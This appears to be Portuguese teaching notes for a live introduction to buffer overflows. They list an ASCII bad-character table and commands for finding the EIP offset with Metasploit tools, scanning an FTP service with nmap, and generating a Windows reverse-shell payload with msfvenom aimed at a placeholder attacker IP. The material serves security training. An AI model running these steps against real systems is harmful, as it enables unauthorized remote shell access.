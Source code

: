 # Live - Buffer Overflow, uma introdução ao assunto

## Tabela ASCII
Char  Dec  Oct  Hex   Linux
(nl)   10 0012  x0a   \n
(cr)   13 0015  x0d   \r
A      65 0101  x41
B      66 0102  x42
C      67 0103  x43

## Comandos utilizados

Gerando texto único para identificação da posição do EIP
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

Checando a posição (offset) do EIP
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438

Conectando no rdesktop
rdesktop -u usuario -p senha -g 65% -x m endereco

Buscando informações do serviço
nmap -Pn -p21 -A 192.168.15.150

Gerando payload do shell reverso
msfvenom -p windows/shell_reverse_tcp LHOST=IP_atacante LPORT=Porta_atacante -b "\x00\x0a\x0d\x40" -a x86 -f python

